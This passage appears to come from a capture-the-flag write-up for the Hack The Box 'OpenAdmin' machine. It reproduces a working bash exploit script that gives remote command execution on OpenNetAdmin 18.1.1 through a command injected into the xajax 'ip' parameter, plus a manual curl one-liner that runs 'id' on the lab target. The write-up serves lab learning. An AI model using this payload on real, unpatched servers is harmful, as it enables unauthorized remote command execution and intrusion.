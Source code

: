 ![](/assets/images/htb-writeup-openadmin/sierra-page.png)

There doesn't seem to be anything interesting on those two pages, so let's move on to OpenNetAdmin.

### Search exploits for OpenNetAdmin v18.1.1

Searching a bit I found this script where apparently we get remote command execution.
```
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}"
done
```
What the script does is a loop of reading the commands that we enter by console and then through curl send it as data through the POST method to the url that we enter (http://10.10.10.171/ona).

We already know what the script does, but we can do it manually by modifying the variables that it takes in line 6, basically we indicate manually the command that we want to execute remotely and the url.
```
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" "http://10.10.10.171/ona/"
```
- Something I would like to point out is that with curl it is always good practice to add a / at the end when indicating the URL.

![](/assets/images/htb-writeup-openadmin/rce-works.png)
